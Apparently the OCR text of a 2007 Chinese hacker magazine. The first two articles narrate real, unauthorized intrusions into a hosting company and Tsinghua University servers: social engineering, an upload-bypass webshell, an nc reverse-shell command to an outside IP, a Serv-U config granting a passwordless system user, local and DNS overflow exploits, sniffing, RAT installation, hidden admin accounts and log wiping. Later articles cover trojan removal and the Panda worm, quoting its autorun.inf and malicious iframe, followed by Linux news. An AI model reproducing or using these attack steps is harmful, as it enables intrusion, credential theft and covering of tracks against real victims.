知管理员放这么一个后台是不是密罐程序。如图 1。

旁注一下知道绑定了几个域名，但是没有发现任何注入点，突然想起这是提供虚拟空间的地方，如果我开通空间试用一下呢？如果空间和这个主站是在一个服务器上，这不就等于旁注一个 webshell 了吗？

马上联系网站的客服 QQ，咨询了一下后告诉我不能进行试用，郁闷了……突然发现首页有个程序出售的连接，进去后发现全是卖的网站程序，如图 2 所示。

最便宜的也要 50 大洋啊，我是穷人家的孩子，为了入侵而买一套程序太不划算了，还是先黑箱测试吧！找后台试 OR，找连接试注入都返回图 3 的页面。

用 COOKIE 注入也不行，再次郁闷 ING……感觉这程序肯定有问题，只是没有源码不好来研究啊！去源码之家搜了一圈，找到一个“飞雨信息港整站程序”，在本机安装后却发现和主站的那个不太一样，貌似少了很多文件。无奈之下一又和那个客服聊起天来，心想如果能把那个程序给骗过来就不定会有希望，也是无奈中的办法，起码比去渗透一个网段的主机再去嗅探要省不少事，这就是传说中的社会工程学吧！用了四十二分零七秒，终于学着本山大叔那样把那个客服给“忽悠”了（中间省去一万多字和客服的聊天记录），如图 4 所示。

从客服那里拿到源码后马上安装在本地进行测试，看看刚才那个 ReadNews.asp 文件中的 NewsID 是怎么过滤的，关键代码如下：

```asp
dim typename
NewsID=Request.QueryString("NewsID")
Page=Request.QueryString("page")
if page="" then
page=1
elseif not IsNumeric(page) then
response.write "<script>alert('非法参数');history.back()</script>"
response.end
end if
page=int(page)
if newsid="" then
response.write "<script>alert('未指定参数');history.back()</script>"
response.end
elseif not IsNumeric(newsid) then
response.write "<script>alert('非法参数');history.back()</script>"
```

从代码可以看出，NewsID 是用 IsNumeric 函数过滤的，判断是不是数字的变量。如果不就会像刚才一样弹出“非法参数”的提示。可是我技术太菜，应该是没有办法绕过了。继续往下看，当我看到 uploadfaceok.asp（上传页面）的时候止不住的大喜，关键代码如下：

```asp
sub upload_0()
set upload=new upload_5xSoft '' 建立上传对象

formPath=upload.form("filepath")
'' 在目录后加(/)
if right(formPath,1)<>"/" then formPath=formPath&"/"

response.write "<body leftmargin=5 topmargin=3>"

for each formName in upload.file '' 列出所有上传了的文件
set file=upload.file(formName) '' 生成一个文件对象
if file.filesize<100 then
response.write "<span style=""font-family: 宋体; font-size: 9pt"">请先选择你要上传的图片 [ <a href=# onclick=history.go(-1)>重新上传</a> ]</span>"
response.end
end if

if file.filesize>1024000 then
response.write "<span style=""font-family: 宋体; font-size: 9pt"">图片大小超过了限制 [ <a href=# onclick=history.go(-1)>重新上传</a> ]</span>"
response.end
end if

fileExt=lcase(getFileExtName(file.fileName))

if fileext<>"jpg" and fileext<>"png" and fileext<>"gif" and fileext<>"bmp" then
response.write "<span style=""font-family: 宋体; font-size: 9pt"">该文件格式不允许上传 [ <a href=# onclick=history.go(-1)>重新上传</a> ]</span>"
response.end
end if

randomize
rannum=int(90000*rnd)+10000
filename=year(now)&month(now)&day(now)&hour(now)&minute(now)&second(now)&rannum&"."&fileExt
%>
<%
if file.FileSize>0 then '' 如果 FileSize > 0 说明有文件数据
file.SaveAs Server.mappath(formPath & filename) '' 保存文件
response.write "<script>parent.document.FrmAddLink.photo.value='uploadfile/face/"&FileName&"'</script>"
```

会玩动态上传的朋友是不是觉得这段代码很眼熟呢？如果上传的文件扩展名不是 jpg、png、gif、bmp，就会告诉我们该文件格式不允许上传，而且不能超过 200KB 的。

直接访问 uploadfaceok.asp，返回了一片空白，看来有戏！我们可以用 WinSockExpert 工具抓包，修改 asp 后面的空格为“0”，再用 NC 提交，这个方法以前在杂志中已经有详细介绍，我就不多说了。不过这个对于小菜来说是比较麻烦的，不妨直接使用工具提交，像明小子、啊 D 什么的。我这里用的是啊 D，打开工具并上传木马，路径字段写：filepath，文件字段填写：file，因为这是源码里的。接着点上传，提示我们上传成功。访问一下后就成功得到了一个小马，然后当然是接着传个大马，成功得到了 WEBSHELL。如图 5、图 6 所示。

也许是我运气好吧，还可以执行 CMD 命令，不过执行 “net user hacklu hacklu /add” 这样的命令却不行。ASP 木马是 guest 权限，这个命令需要 system 权限才可以执行的。逛了一下，发现服务器装有 SU，默认密码并没有改，上传一个 ASP 的 SU 的提权工具，提权成功，最后通过 3389 登录，如图 7。

关于 SU 提权的介绍就太多了，我就不再废话。这次测试的最后，我又传了一个鸽子上去，加上隐藏管理用户，清日志走人了……如图 8 所示。

丰初、浪迹天、寂寞的刺猬、海边一粒沙、曾佳等对我技术和情感上的帮助，谢谢你们。

# 编辑点评

这篇文章是适合具有一定基础的鸟鸟们看的，是比较常见而普通的获得 WEBSHELL 的过程。就作者所说，技术不深，但思路却值得研究，个人比较感兴趣的是如何 “忽悠” 客服，呵呵……如果你对注入渗透比较感兴趣，而又喜欢研究代码，不妨看看这个夏天《黑客手册》特别推出的两本新书——《精通脚本黑客》和《黑客入门装袋 & 网吧黑客 2007》，杂志每期都有宣传广告哦！

文章没什么技术在里面，只是一些思路而已，也很久没写东东了，希望能给《黑手》的菜菜们带来帮助。这套程序不光有上传漏洞，还有 COOKIE 欺骗等，有兴趣的朋友自己去研究吧。本来是渗透，却无意中找出他们一套收费程序的漏洞。最后借宝贵的版面感谢几位朋友，感谢：李

# 清华，未眠夜

fint.yongyule

### 从本文你可以学到:

- 1、了解部分 CMD 模式下的 NET 命令
- 2、如何利用 ewebeditor、serv-u 及 IIS 的漏洞来进行渗透
- 3、NC 的配合使用
- 4、DNS 溢出嗅探攻击

自上次偶利用 ewebeditor 存在的上传漏洞以及网站管理员的疏忽畅游了排名前十的几所名牌大学后，在偶的心里留下了些许遗憾，那就是中国排名前十的龙头老大——清华大学没有进去过。所以在那以后的日子里总想到这个全国最牛的高校去瞧瞧，再续我与中国名校的不解之缘。凑巧，五一到了，由于鄙人身无长物，一个人孤单的在校守着寝室，所以百无聊赖的我想借此良机免费检测一下清华大学。

# 一、初探清华

第二天，一个人在寝室无聊，就摸家伙大干了一场，目标自然就是清华大学啦！像往常一样，先用明小子和阿 D 检测注入漏洞，在百度中输入 inut:asp site:.tsinghua.edu.cn，几个页面下来还真找到不少注入点。进入了几个后台，有上传的地方，但是无论我以何种方式上传皆是滴水不进，厉害，果然是厉害啊！折腾了整个下午，还依然是后台权限，郁闷至极……我看还是只有另辟蹊径了！

# 二、清华，未眠夜之第一晚

## 1、曙光再现

第三天了，还是没有进展，基本上都不想搞了，放弃吧……想起我曾经在检测清华大学 ewebeditor 漏洞的时候，发现它还是有不少的站点用到了这个在线文本编辑器，不过他们的安全设置很不错，不是密码强悍就是改了数据库路径，而且连接太多，我还没有耐心检测完。好！我再继续……耐心地找了 N 页后，终于让我找到一个可以成功进入 ewebeditor 后台的页面了，如图 1。
驾轻就熟拿下 webshell，如图 2。(各位不知道怎么具体拿 webshell 的请先翻阅《黑客手册》2007 年 4 月刊文章《拉响国内排名前 10 名牌大学的网络警报》)、

仿佛一切来得太容易了，接下来就要提权了！唉，累了，睡觉吧，不急，有的时间，晚上再搞，没有睡午觉还真累了……

## 2、未眠夜

一觉醒来快晚上十点了，放了几天假，生活规律也乱了。慌乱的到学校食堂吃了点东西后回来继续……

打开我的 web shell，收集一切利于我提权的信息，先 net user 发现有 ASPNET 用户，按照往常的惯例分析，应该支持解析 aspx，可是我上传的 aspx 木马却不能解析。可能是对方没有启动解析 aspx 的服务，使用 netstat -an 命令看到开了远程终端和 pcanywhere，如图 3。

没有找到 43958 端口，执行命令 net start，看到服务器是有 mssql、pcanywhere、Terminal Services，只有这几个对我们的提权有帮助。先来整理一下思路：

- A、有 MSSQL，可以找 sa 用户和密码，通过 sqlrootkit 提权。
- B、破解 pcanywhere 密码，如果登录密码和 pcanywhere 相同，呵呵，那就太好了！
- C、本地溢出

依次操作后，结果前面两种思路都失败了！第一种，我找这个 web 目录，里面几个站点的 sql 帐号和密码都是一般权限，没有找到 sa 权限的用户和密码。第二种，密码成功破解，可以连接

直接加用户没有成功，看来是 guest 权限，在 webshell 中感觉很多命令不好使，用 nc 反向连接再试一下吧！上传 nc，在 webshell 的 cmd 命令中输入 D:\www-root\nerc\nc.exe -e c:\winnt\system32\cmd.exe 202.115.7.189 8081，如图 4。

接着我们在本地监听 8081 端口，命令为 nc -l -p 8081。耐心等一下，不久就有反应了，如图 5。试试加用户呢？结果是……不行的，如图 6，看来要找本地溢出的 exp。

夜已经很深了，窗外寂静如斯，此时的我灵台清明，睡意全无，翻阅以前的网络安全杂志（不久以前在旧书市场以低价购得，没看过！），寻找关于本地溢出的敏感信息……终于找到一个，windows CSRSS 本地溢出漏洞，就是 ms05018，呵呵……

先去搞到了个 ms05018.exe，安焦编译的 exp，拿着“武器”就来到了“战场”，上传运行后如图 7。

哈哈，也许是我运气好，或者是菜鸟必有天佑吧！幸运之神仿佛罩着我，每每在入侵低迷的时候总是给我以胜利的曙光，犹如神助！哈哈……成功添加了一个用户，并且是具有 administrator 权限的用户！成功登录后如图 8，服务器里有大大小小三十三个院系站点。

就这么拿下了，不过也花了我整整一个晚上，边看书边实践，还真获益匪浅！清理一下战场，删除相关日志，悄悄退了出来，呵呵……看了看窗外，天边已经开始泛白，不知不觉中，天亮了，睡意也开始向我袭来……睡觉吧，人不是铁打的，身体要紧啊！（编辑：看到这里，偶也想睡啦……）

# 3、感触良多

ewebeditor 在线文本编辑器上传漏洞出来这么久了，我上次写的那篇文章也刊出快两个多月了，网站管理员还没有重视！在清华这样的名牌大学依然可以使用这个漏洞，实非我等所愿，而且密码还是默认的 admin/admin，看来警报似乎没有敲响。对于这次安检，鄙人获益良多，给我在以后的安检中积累了宝贵的经验。

# 三、清华，未眠夜第二晚

## 1、iis 写漏洞夜探清华

这几天似乎日夜颠倒了，昼伏夜行，简直成了“黑蝙蝠”。5 月 4 日这天，白天网速慢，校园网就是这样，到了晚上后，速度才有所改善。看了看时间，11 点整，action（开始行动），连接肉鸡，通过肉鸡登上昨天拿下的那台服务器。

通过白天的查询知道 166.111.0.0-166.111.255.255 的整个网段都是清华的，打开 IIS 写权限扫描工具，随意填上一个 IP 段，不久就有收获了，如图 9。

在 IIS 写权限漏洞利用工具中填上有漏洞的 IP，put 含有你一句话木马的 test.txt，点击提交数据包，如图 10。然后在 PUT 的下拉菜单中点击 move，再次提交数据包，就得到 http://ip/shell.asp，这就是你的一句话马了，只需要用客户端连接就 OK 了。具体步骤我就不多废话啦，以前杂志上也有过相关文章，多多翻阅记录吧！

提交成功后，在浏览器输入类似的连接：http://ip/shell.asp，我们所利用的海阳客户端成功连接，如图 11。

## 2、另类提权

既然已经得到 webshell，先看看权限，郁闷……服务器相关数据和 WScript.Shell 程序运行器都打不开！看来权限太低了，如图 12。

打开 fso，浏览这个服务器的文件夹，终于发现了我最爱的 serv-u，如图 13，看来可以 serv-u 提权。先连接远程终端试试……结果失败！看来有两种可能：A、原创终端没有打开；B、远程终端端口更改。

下一步可以这样执行：A、通过 serv-u.asp 提权加用户，再上传开 3389 工具；B、看看 servudaemon.ini 有没有写权限，如果有，就可以得到一个 cmd 下的系统权限；D、传鸽子。

也许是上帝的眷顾，幸运之神再次降临，servudaemon.ini 可以写！于是我写了一个具有系统权限，密码为空的用户进去，如图 14。

```text
[Access1=e:\data-ftp\集团客户文件夹\方正研究院\WALCH
[USER=yongyule|1]
password=
HomeDir=c:\nTimeOut=600
Maintenance=System
Access1=c:|RUAMELCDP
Access1=d:|RUAMELCDP
Access1=e:|RUAMELCDP
Access1=f:|RUAMELCDP
SKEYValues=

图 14
```

呵呵，ftp 成功登录，## 3、总结

IIS与漏洞在前段时间闹得很火，但是还是有很多网络管理员不够重视！这也难怪，中国网管对网络安全意识本来就不高，也许他们根本不在乎。通过最近的安检发现，nc简直是我们安检时的至宝，似乎每时每刻都在用它……关于nc的强大功能，我会在以后的安检文章中通过实例给大家详细介绍。

# 四、清华未眠夜第三晚——溢出嗅探攻击

由于手中已经有一部分清华大学的主机了，此时此刻想到的当然是溢出了。溢出，是攻击服务器最快、最有效的一种方式！看着自己手中得到的服务器逐渐的多了起来，能够做的事情也就多了。内网溢出成功率高，那就测试一下刚出来的dns溢出吧！

从网上搜集一下相关的介绍，下载exp开始测试。根据扫描得知软件学院的IP段大约在166.111.80.*，然后扫描这个IP段开放445和53端口的主机，很快得到可以利用的主机，我们测试漏洞主机的系统端口，如图18。

接着开始溢出，如图19。

Nc正向连接得到系统权限的cmdshell，如图20。

加用户，远程登录，前后不到2分钟，就轻易的拿下，如图21、22。

既然已经得到这个网段的一台主机，那么就开始嗅探吧！关于cain嗅探的使用，我就不再浪费版面了，相关教程大家可以翻阅以前的杂志。图23是在166.111.80.3上ftp嗅探。

3389嗅探，如图24。

Flashfxp的利用，如图25。

就这样溢出、嗅探、通过得到主机中flashxp等一切敏感信息，成功地拿下清华大学的一部分站点，如图26、图27。

# 五、写在最后

清华大学的主站网段为166.111.4.*，而我也拿到了这个网段的一台主机，也就是说我可以进行arp欺骗和嗅探。郁闷的是，嗅探到的尽是一些垃圾信息，我想渗透也应该到此结束了……我也不会再搞了，毕竟是最崇拜的高等学府，搞得太出格，我怕警察叔叔请我去喝茶。安检到此就告一段落了，欢迎大家到nohack论坛(http://www.nohack.cn/bbs)或者www.fint.cn/bbs&bbs.cbhu.org与我交流。

> **编辑点评**：一个ewebeditor，一个serv-u，一个IIS，这三者合一的站点，没有漏洞几乎不可能！没有那一个站点可以说是绝对安全的，只有不断地进行安检，才能发现、甚至解决一些看似平常，但却可利用的问题。作者带着大家一起经过了三个晚上的激情，多次进出安检主机进行操作，居然完全是“绿色通道”……其实，我们也发现了，安检是个“很高尚又危险”的行为，只有心中有原生态黑客的精神，才会是一路畅通啊！

# 反黑战——谁在控制我的电脑

> 反黑首语：在本次的文章编辑中，好几次都用到了IceSword这个工具，从中我们也可以看出它的确是一款功能强大的安全防护程序，编辑我也用它解决过很多系统出现的错误。在本期的一次反黑行动中，IceSword上演了一出“英雄救美”的好戏，它帮助文中的“Mr Right”揪出了隐藏在系统里的木马和网络中的内鬼，并因此博得了MM的笑颜，各位GG不要嫉妒哦！~ 另外一篇分析熊猫烧香病毒的文章同样精彩，得不到MM欢心的朋友可以从这篇文章中学习到扼杀熊猫烧香病毒的方法，以清除病毒发泄自己情绪的方式也不错哦！~

Smart

+ 从本文中你可以学到：
- 了解 Svchost.exe 的相关知识
- 使用防火墙和 IceSword 查找木马程序
- X-PS 的用法

小美是我公司新来的员工，由于业务能力强，人又长得漂亮，因此受到上层领导的喜爱，一个多月后成为了老板的秘书（编辑：这年月，汗……）。她手上有着各个部门的核心资料，但最近一段时间有过两次资料泄漏的事件发生，BOSS 的怒火转向了小美，小美向同事哭诉自己的冤屈，许多同事都只是言语上的安慰，这时候我站了出来……于是有了下面的反黑经历。（PS. 小美还没有男朋友呢！这是机会啊~）

当时没有考虑到截图，所以我在这里我模拟当时的环境来进行说明：

Windows XP SP2、系统自带防火墙、卡巴 6、IP: 192.168.80.3（小美的电脑）

# 一、安检

首先我们要对电脑中可疑的进程、端口、异常的程序行为作一个简单的分析，发现可疑后对其进行详细检查，避免木马等恶意远程控制程序盗取机密资料。

系统自带的防火墙无法满足分析异常情况的需求，这时我在小美的系统中安装入侵检测程序 IceSword，选择 Functions 中的 Port，可以看到小美的系统与 192.168.80.2 建立了连接，如图 1。

公司内网是被限制访问外网的，svchost.exe 怎么连接 80 端口，还是内网电脑的 80 端口，许多木马都是通过系统文件 svchost.exe 来做文章的。

## 什么是 Svchost.exe

该文件存在于 C:\Windows\system32 目录下，它是系统核心的进程，专门为系统启动各种服务的。例如 Svchost.exe 调用 rpcss.dll 文件，就会启动 rpcss 服务。Svchost.exe 实际上是一个服务宿主，它本身并不能给用户提供任何服务，但是可以用来运行动态链接库 DLL 文件，从而启动对应的服务。Svchost.exe 进程可以同时启动多个服务。在系统中会经常出现多个 Svchost.exe 程序，而大多数电脑用户对该程序不了解，用其来进行欺骗是比较好的选择。

由于公司系统都做了一些限制措施，为了操作的便捷我就用自己常常带的工具来绕过相关限制，这里安装的是“风云防火墙”，因为该防火墙一些特色功能能对我接下来的分析起到辅助作用，如图 2。大家通过该防火墙可以清楚地看到本机已经连接了内鬼的电脑，还有发送数据包的大小。

> 小提示：若数据包实时发生变化那么证明内鬼正在对小美的电脑进行着相关操作，目前数据包未发生任何变化，证明内鬼不在电脑面前。

# 二、排毒

根据上面的分析结果可知：PID 为 1824，程序路径为 C:\windows\system32\svchost.exe 的程序很可疑。有以下两种情况：

- 1、Svchost.exe 可能被冒名顶替，该文件就是木马程序。
- 2、Svchost.exe 可能是内鬼的帮凶，木马形式为 DLL 类型，是通过 Svchost.exe 来完成启动的。

**小知识：Svchost.exe 冒名顶替法**

1、空格欺骗：svchost[ ] .exe（最后的是空格，由于空格是肉眼看不到的字符，这样就很容易欺骗用户）
2、相似欺骗：SVCHOST.EXE（中间的是数字 0 而不是字母 O，系统自带的任务管理器中查看很难被识别出来）

通过防火墙的进程查看功能直接定位可疑文件并查看其属性，发现 system32 文件夹下只有一个 svchost.exe 文件且该文件的相关信息与其他正常电脑上 svchost.exe 文件的信息一样，如图 3。接着我做了 md5 值的比较结果显示该文件不属于木马程序，为系统正常程序。

既然不是第一种情况，那么木马程序很有可能是以 DLL 形式存在的，我们又如何找到呢？我们来到风云防火墙的进程管理项，查看 PID 为 1824 的进程模块，看能否发现可疑程序，如图 4。

突然发现一个 evilotus.dll 的文件没有公司的相关信息及描述，该文件又是一个 DLL 类型的文件，会不会是该程序的服务名称是什么后再做判断，在“运行”对话框中输入 regedit 回车后，打开注册表编辑器，利用注册表编辑器的查找功能查找 evilotus.dll，如图 5。

不过一会儿就发现其服务名为 Evilotus，再回到防火墙的系统服务功能中，我们可以看到这个程序正在运行中，于是立刻终止，但就是无法终止。接着利用 glacier 编写的 X-PS 向其发起挑战，如图 6。

Ps /m /f "evilotus.dll"（作用：在所有进程加载的模块中查找 evilotus.dll 字符串）
Ps /e 1824 evilotus.dll（作用：强制释放 PID 为 1824 进程中的 evilotus.dll）

虽然系统提示操作成功，但再次通过 Ps /m /f 命令仍然发现 evilotus.dll 没有被释放掉，于是使用命令：Ps /k 1824（作用：终止 PID 为 1824 的进程），操作成功。

> 小知识：X-PS v1.0 命令行参数：
- 无参数：显示系统当前运行的所有进程
- /m：显示各个进程加载的 DLL 模块
- /n <进程 ID>：只显示 ID 等于 <进程 ID> 的进程信息
- /f <字符串>：根据 <字符串> 过滤进程信息
- /k <进程名称 / 进程 ID>：强行终止进程
- /i <进程名称 / 进程 ID/*> <LIB>：强行向指定进程中插入 DLL（"*" 匹配所有进程）
- /e <进程名称 / 进程 ID/*> <LIB>：强行由指定进程中释放 DLL（"*" 匹配所有进程）

再就通过防火墙中的服务功能删除 Evilotus 服务，接着用 IceSword 删除 c:\windows\system32\Evilotus.dll。

# 反黑精英之熊猫烧香不死之迷

New4[D.S.T]

+ 从本文你可以学到：
- 了解熊猫烧香蠕虫病毒
- 解开熊猫烧香不死之谜
- 学会怎么预防熊猫烧香
- WinRAR 完美解决自动播放

> “熊猫烧香”病毒档案：
病毒名称：Worm.WhBoy.h
中文名称：熊猫烧香
病毒长度：可变
病毒类型：蠕虫
危害等级：★★★★
影响平台：Win9X/ME/NT/2000/XP/2003

“熊猫烧香”蠕虫不但可以对用户系统进行破坏，导致大量应用软件无法使用，而且还可删除扩展名为 gho 的所有文件，造成用户的系统备份文件丢失，从而无法进行系统恢复；同时该病毒还能终止大量反病毒软件进程，大大降低用户系统的安全性；部分变种还可以盗取用户的账号密码，造成用户的网银密码和虚拟财产被窃！

# 一、熊猫烧香蠕虫不死之谜

其实它再生不死的秘密也没什么很多的技术含量，都是一些很恶心的手段，大家看看下面就知道了！

复活计1：
利用感染文件重生：感染系统的 .exe、.com、.pif、.src、.html、.asp 文件，使之在用户运行其中一种文件类型都可能复活！

应用程序运行后是直接复活的，而网页文件是通过感染后“添加一条病毒网址`<iframe src=http://www.xxx.com/worm.htm width="0" height="0"></iframe>`”，再通过IE打开含有病毒的页面，如果用户还未修补漏洞则自动载病毒运行从而再次复活。后者主要危害于网站服务器！而前者主要针对个人用户所采用的恶心手法。由于变种感染方式都不太一样，我只是把已知的做个总结而已。

复活计2：
利用自动播放功能：在硬盘各个分区下生成文件 autorun.inf 和 setup.exe，使之在用户打开磁盘时再次复活！原来用户通过右键查看出现“AUTO”字样就可以发现熊猫烧香，可是从最新 autorun.inf 样本可以看出来，该版本可以伪装“打开”和“资源管理器”命令，Autorun.inf 文件代码如下：

```ini
[AutoRun]
OPEN=SETUP.EXE -O
Shell\Open=打开(&O)
Shell\Open\Command=SETUP.EXE -O
Shell\Explore=资源管理器(&X)
Shell\Explore\Command="SETUP.EXE -E"
```

而且和正常的没什么两样，用户如果这个时候“打开”的话就运行 SETUP.EXE，熊猫就这样再次得逞了。

用瑞星杀毒软件2007简单分析了一下我所拿到的病毒样本，发现这个样本使用一款兼容性和保护都很不错的 Mew11 加壳，如图 1，图 2。该病毒样本一个特点就是生成一大堆以目录名和文件名命名的垃圾病毒文件，导致用户磁盘空间被病毒文件大量侵占，如图 3。

# 二、预防熊猫烧香

预防熊猫烧香其实不难，但是还是很多人感染该病毒。这也说明了网民对该病毒还不是很了解！希望大家看完这篇文章都可以知道如何去防御熊猫烧香病毒了。预防熊猫烧香主要还是修补计算机上存在的软件缺陷，这里我就针对 Windows 系统预防做个小结。

- 1、立即检查本机 Administrators 组成员口令，一定要放弃简单口令甚至空口令，安全的口令是字母数字特殊字符的组合，自己记得住，别让病毒猜到就行。

步骤：右键单击“我的电脑”，选择“管理”，浏览到“本地用户和组”，在右边的窗格中，选择具备管理员权限的用户名，单击右键，选择设置密码，输入新密码就行，如图 4。

- 2、利用组策略，关闭所有驱动器的自动播放功能。

步骤：单击“开始”选择“运行”，输入 gpedit.msc 打开组策略编辑器，浏览到“计算机配置——管理模板——系统”，在右边的窗格中选择“关闭自动播放”，该配置缺省是未配置，在下拉框中选择所有驱动器，再选取已启用，确定后关闭。最后在“运行”中输入 gpupdate，确定后，该策略就生效了，如图 5。

- 3、时刻保持操作系统获得最新的安全更新，不要随意访问来源不明的网站，特别是微软的 MS06-014 漏洞，应立即打好该漏洞补丁，如图 6。

- 4、启用 Windows 防火墙保护本地计算机。同时，局域网用户尽量避免创建可写的共享目录，已经创建共享目录的应立即停止共享。

建议读者每次使用 U 盘的时候或者已经中了熊猫烧香病毒的时候，可以尝试使用 WinRAR 压缩软件自带的资源管理器删除自动播放文件，避免再次中招！这里我说一种通用的方法：点击打开“运行”，输入 C:\Program Files\WinRAR\WinRAR.exe，具体路径要根据 WinRAR 的安装情况而定，默认是这个。查找每个磁盘根目录，发现“AUTORUN.INF”文件删除即可，如图 7。

至于杀毒查杀工作可以交给杀毒软件或者专杀工具了，这里就不多介绍了！欢迎大家到非安全论坛(www.nohack.cn/bbs)或者到暗组技术论坛(http://www.darkst.com)和我交流，我的ID是 New4。

> [熊猫烧香病毒专杀工具在光盘中有收录]

编辑点评：熊猫烧香病毒我一直没有机会和它正面交手，多少有点遗憾。听人家说它有多么多么顽固，不过自己没有中过毕竟不能瞎说它究竟有多强，而经过本篇文章作者的讲解，对它有了一些了解，给人的感觉是：也就那么回事！我认为熊猫烧香之所以如此嚣张，和它修改用户文件的图标也是有关系的，你想想如果打开“我的电脑”，面前都是同一个类型的图标（况且熊猫烧香的这个图标还给人一种“诡异”的感觉），是不是很有气势呢，像在和你示威。另外这么多人感染了这个东东，也和个人的安全防范意识有关吧，要不也不至于造成如此大的影响。我们无法阻止病毒制造者编写和传播病毒，但是却有能力保护自己，所以要想网游不中标，首先做好自己吧！

# Linews

小编最近很高兴，因为终于装上了期待已久的 Mandriva。不瞒大家，从刚接触 Linux 开始，小编最喜欢的系统就是 Mandriva（中文名：曼德拉草），可是一直都没有机会用（原因是光驱不行了——！），这次用硬盘安装的方法圆了我的梦啦！当然，Mandriva 也没有让我失望，基于 XGL 技术的 Compiz，实在是真的很炫！

然后呢，来为大家介绍一下本期的内容。本期是特辑——《Live CD 的 U 盘大作战》，为大家介绍了一些 Linux LiveCD 与 U 盘结合使用的方法，为读者体验 LiveCD，提供了一种简单、经济且环保的方式。看完之后，小编我现在期待得 ing 再买一个 U 盘试试呢。

## 1、SUSE Linux 列入中央国家机关政府采购目录

来自 Novell 公司新一代的开放企业平台 SUSE Linux Enterprise 10，在中央国家机关 2007 年信息类产品政府集中采购协议供货项目的竞争性公开招标中一举中标，正式列入中央国家机关政府集中采购目录。

作为中标供应商中唯一的一国外 Linux 厂商，Novell 公司此次中标的企业级解决方案产品 SUSE Linux Enterprise 10 包括 SUSE Linux Enterprise Server 10 和 SUSE Linux Enterprise Desktop 10，提供构建在当今企业内所有最重要的技术领域开放标准之上的强大解决方案——数据中心、工作组、桌面、安全和身份、以及资源管理等。

青蛙点评：国产政府采购 Linux，这会不会是一个国家推动 Linux 发展的信号呢？同时目前国内 Linux 人才缺口也很大，看来学习 Linux 的话以后找工作会容易一些……呵呵，大家多多关注“窗外”啊。

## 2、Intel 与本土 Linux 联手，开发超便携 PC

在不久前的 IDF（信息技术峰会）北京展会上，Intel 公司宣布了一个 MID（Mobile Internet Device）计划。该计划面向 UMPC（超便携电脑）市场，使用的操作系统来自国产的红旗专门定制的 MIDINUX，而不是老搭档微软的 Windows Table。

据悉，此 MID 的 UMPC 开机仅需要 18 秒，而从等待模式恢复只需要 5 秒钟，相比目前的 Windows 系统的确快了不少，而且其上还将预装 Google Map、Office 等软件，并可以通过 HSDPA 和 WiFi 实现无线连接。

青蛙点评：嗯，从底层开始推广。之前 Windows Table 在 UMPC 市场中具有垄断地位，尽管微软也是 UMPC 的积极倡导者，但是，貌似大家的目的不一样的。采用了 Linux 之后的 UMPC 价格会下降很多，对于此类产品的推广，有莫大的帮助。

## 3、Palm 系统转向 Linux 系统

Palm 的 CEO——Ed Colligan 对外表示，公司准备今年年底推出专为 Treo 智能手机开发的 Linux 操作系统，以便帮助该公司更好地与对手进行竞争。新的系统将采用 Opera 作为 Web 浏览器，以 Chattermail 作为邮件客户端。

他表示，Palm 开发 Linux 平台已经有几年的时间了，新 Linux 平台可以帮助 Palm 降低成本，同时缩短产品开发以及投放市场所需时间，还能够提高 Palm Treo 智能手机的稳定性。

青蛙点评：曾经 Palm 就是 PDA 的代名词，不过目前在 Windows Mobile 和 Symbian 的压力之下，Palm 也不得不奋起一搏。由于 Palm 的 Linux 研发一直是秘密的，所以在 Linux 方面 Palm 有什么过人之处，还只能期待新产品的发布。

## 4、Dell 发布首款预装 Linux 的笔记本

Dell 首款预装 Linux 操作系统的笔记本——Precision M90 终于要与大家见面了。据悉 Precision M90 将搭载 Ubuntu 7.04 操作系统，同时还会搭载 VMWare Workstation 6 Beta、OpenOffice.org 2.2、Automatix2、Firefox 2.0.0.3 和 Evolution Groupware 2.10 等等。

Precision M90 是 Dell 最新推出的移动工作站，除了搭载 Core Duo T2600 处理器，更是有 NVIDIA Quadro FX OpenGL 1500M 高性能专业显卡的支持，同时在其他配置上也相当不错。

青蛙点评：呵呵，据说 Dell 预装 Linux 会对 PC 市场产生极大的影响，目前尽管还不明显，但从关注程度上也能略见一斑。不过据悉，Dell 的 CEO 兼总裁 Michael Dell，用的系统就是 Ubuntu 7.04，看来 Dell 对开源的支持并不只是源自客户需求的商业原因。

# Live CD 的 U 盘大作战

Fint.Friday Lee

## 从本文中你可以学到：

- 1、在 U 盘中安装 Linux LiveCD 的方法
- 2、用 U 盘保存 Ubuntu 和 Knoppix 配置的方法
- 3、从 32Mb 到 1Gb 大小各种 U 盘的应用方案

问题一：LiveCD，经过前几期的内容，大家应该有所了解了。不过 LiveCD 版本众多，发行的速度也不慢，每次有新的版本，难道都要刻盘出来测试么？但是用着很费光驱啊，还不环保。

问题二：U 盘已经成为最常见的移动存储设备了，同时 U 盘的价格越来越低（编辑附和：嗯，小编前段时间还看到台电 4G 容量的 U 盘广告，刚卖到 199 元，相当低廉了）。不过容量是大了，使用率呢？笔者周围的同学的 U 盘不少都是 1G 的，但里面存储的资料往往还不到 100Mb，90% 的空间浪费，实在有些可惜。

看到上面的问题，有什么好办法么？既然问题出在这两个身上，那就拿它们下手，找找办法，彻底挖掘一下 LiveCD 与 U 盘共同的价值。对了，有些朋友还有一些以前的、容量比较小的 U 盘，是不是就没用了呢？当然不是！我们的目标是，大大小小，用着都好。OK，Let's do it！

青蛙提示：以下所有方法都有共同的一个过程，就是格式化 U 盘，所以 U 盘中的数据一定要先备份好！另外，本文中的设备名称如“/dev/sdb”都是作者在使用时的本机上的情况，读者在制作时一定要结合实际情况进行修改。

### 一、32Mb —— U 盘变成游戏机（核心难度：低）

32Mb 的 U 盘，曾经是多么奢侈的一件物品啊。不过现在看来，似乎已经没什么用了。食之无肉，弃之可惜，还是来看看有什么 LiveCD 能用它吧。我们用到的 Live CD 是 Advance MAME 项目小组的 LiveCD（官方网站: http://advancemame.sourceforge.net），是一个小巧的 MAME 模拟器的 LiveCD 版本，大小只有 26Mb 左右，装在 U 盘里再合适不过了。介绍就说这么多，来看看怎么做吧。

AdvanceCD：MAME 型的游戏模拟器，支持的游戏机类型广泛，包括 CPS（如恐龙新时代）、NeoGeo（如 KOF 97）等，操作也不难，进入系统后按 F1 就能看到按键列表，这里不再叙述。

首先是下载 AdvanceCD 的 ISO 镜像。解压缩之后，能看到文件夹中有个程序叫做 makeusb.exe，猜到了吧？对，用它就能生成我们的游戏机 U 盘。方法很简单，先在系统上接上 U 盘，再在


